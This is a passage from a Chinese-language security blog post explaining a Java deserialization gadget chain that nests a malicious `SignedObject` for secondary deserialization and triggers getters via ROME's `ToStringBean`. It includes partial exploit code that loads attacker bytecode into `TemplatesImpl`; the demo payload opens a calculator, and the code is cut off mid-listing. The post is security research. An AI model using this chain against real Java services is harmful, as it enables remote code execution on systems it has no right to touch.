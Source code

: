 ![image-20220809182131901](./Zets/index/image-20220809182131901.png)

那么茯苓思路瞬间清晰了，先构造一个恶意`SignedObject`

```java
KeyPairGenerator kpg = KeyPairGenerator.getInstance(&#34;DSA&#34;);
kpg.initialize(1024);
KeyPair kp = kpg.generateKeyPair();
SignedObject signedObject = new SignedObject(恶意对象 用于第二次反序列化, kp.getPrivate(), Signature.getInstance(&#34;DSA&#34;));
```

然后调用它的`getObject()`方法即可，那么现在压力来到了如何调用这个方法这边

#### rome

##### ToStringBean

提到调用 getter 方法，茯苓第一个想到的就是 rome 反序列化，众所周知，rome 的`ToStringBean`的`toString()`方法可以办到这件事，理论上是可行的，实际也是可以构造的

因为`ObjectBean`其在实例化时会实例化三个 bean，这样构造出来的内容过分长了，茯苓不喜欢

~~大家可以自行构造试试~~，茯苓绝不是那种不负责的人，还是给出例子，但不进行具体分析

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javax.xml.transform.Templates;
import java.security.*;
import java.util.HashMap;
import static util.Tool.*;

public class R_test {
    public static void main(String[] args) throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, &#34;_bytecodes&#34;, new byte[][]{
                payload(&#34;mate-calc&#34;).toBytecode()});
        setFieldValue(obj, &#34;_name&#34;, &#34;Poria&#34;);
        setFieldValue(obj, &#34;_tfactory&#34;, new TransformerFactoryImpl());
        
```